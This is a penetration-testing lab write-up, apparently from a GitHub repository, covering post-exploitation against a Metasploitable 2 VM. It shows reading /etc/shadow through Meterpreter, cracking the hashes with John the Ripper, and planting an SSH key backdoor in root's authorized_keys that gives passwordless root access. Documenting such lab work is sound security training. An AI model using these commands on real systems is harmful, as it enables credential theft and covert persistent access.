







# Phase 7 — Pilfering & Persistence

> **Objective:** Extract sensitive data from the compromised system and establish a persistent backdoor that survives beyond the active Meterpreter session.

---

## Part A — Password Hash Extraction

### Attempted: post/linux/gather/hashdump

The `post/linux/gather/hashdump` module is designed to extract all password hashes from the target by reading `/etc/shadow` through the Meterpreter API and saving them into the MSF loot database.

```bash
# Interact with the root Meterpreter session
sessions -i 20

meterpreter > run post/linux/gather/hashdump
```



> **Result:** The module produced an error and returned no output despite the session holding confirmed root privileges. This was identified as a known implementation issue in this module version — not a privilege issue.

### Workaround — Direct Shell Access

To verify and demonstrate the same capability through an alternative path, `/etc/shadow` was read directly via the Meterpreter shell:

```bash
# Open a system shell from the Meterpreter session
meterpreter > shell

# Display the contents of the shadow file
cat /etc/shadow
```



> **Result:** The full contents of `/etc/shadow` were returned, including all user password hashes — confirming root-level file read access.

### Hash Cracking with John the Ripper

The extracted hashes were passed to **John the Ripper** for offline cracking:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```


> John the Ripper successfully cracked the majority of the extracted hashes, recovering plaintext passwords for most user accounts.

---

## Part B — SSH Key Persistence

### Why SSH Key Persistence?

Creating a persistent SSH backdoor is a realistic and reliable technique for maintaining access after the initial vulnerability has been patched. By injecting an attacker-controlled public key into `/root/.ssh/authorized_keys`, the attacker can reconnect at any time using the corresponding private key — with no password required.

### Step 1 — Generate SSH Key Pair on Target

Using the root Meterpreter shell, an RSA key pair was generated directly on the target machine:

```bash
# Interact with the active root Meterpreter session
sessions -i 4

# Open a system shell
meterpreter > shell

# Create .ssh directory (-p suppresses error if it already exists)
mkdir -p /root/.ssh

# Apply strict permissions (root access only)
chmod 700 /root/.ssh

# Generate RSA key pair on the target
# -t rsa  : RSA algorithm
# -f      : Output file path
# -N ""   : Empty passphrase for non-interactive access
ssh-keygen -t rsa -f /root/.ssh/backdoor_key -N ""

# Append the public key to authorized_keys
cat /root/.ssh/backdoor_key.pub >> /root/.ssh/authorized_keys

# Apply strict permissions to authorized_keys
chmod 600 /root/.ssh/authorized_keys
```






### Step 2 — Retrieve the Private Key

The private key was transferred from the target to the Kali attacker machine using Meterpreter's `download` command:

```bash
meterpreter > download /root/.ssh/backdoor_key /tmp/backdoor_key
```

### Step 3 — Verify the Backdoor

On the Kali console, the retrieved private key was given correct permissions and the connection was tested:

```bash
# Set correct permissions on the private key file
chmod 600 /tmp/backdoor_key

# Connect to the target using the backdoor key
# -i                       : Specify the private key file
# -o HostKeyAlgorithms     : Permit deprecated ssh-rsa algorithm
# -o PubkeyAcceptedKeyTypes: Allow RSA public key authentication
ssh -i /tmp/backdoor_key \
    -o HostKeyAlgorithms=ssh-rsa \
    -o PubkeyAcceptedKeyTypes=ssh-rsa \
    root@10.0.2.7
```



> **Result:** The SSH connection succeeded **without a password prompt**, confirming the public key injected through Meterpreter was accepted. Persistent root access was established and verified.

---

## Module Reliability Issues Observed

During Phase 7 testing, two additional module failures were encountered and documented.

### hashdump Module Failure

As shown above, the `post/linux/gather/hashdump` module failed to retrieve hashes despite a confirmed root session. Research confirmed this was an internal implementation issue specific to the module version.

### sshkey_persistence Module Failure

```bash
use post/linux/manage/sshkey_persistence
```





> The `sshkey_persistence` module had been relocated in a later release. The replacement module `exploit/multi/persistence/ssh_key` also failed with a payload validation error. Both cases required falling back to manual implementation through the Meterpreter shell — as demonstrated above.

---

## Summary

| Action | Method | Result |
|--------|--------|--------|
| Hash extraction via MSF module | `post/linux/gather/hashdump` | Module failed (implementation issue) |
| Hash extraction via shell | `cat /etc/shadow` through Meterpreter | All hashes retrieved |
| Hash cracking | John the Ripper | Majority of passwords cracked |
| SSH backdoor creation | Key pair generated via Meterpreter shell | Public key injected into `authorized_keys` |
| Private key retrieval | `meterpreter > download` | Private key saved to Kali |
| Backdoor verification | `ssh -i backdoor_key root@10.0.2.7` | Passwordless root login confirmed ✅ |

---

## Disclaimer

> All techniques demonstrated in this repository were performed against **Metasploitable 2** — an intentionally vulnerable virtual machine — in a fully isolated lab environment. These techniques must never be used against real systems without explicit written authorisation. Unauthorised access is illegal.
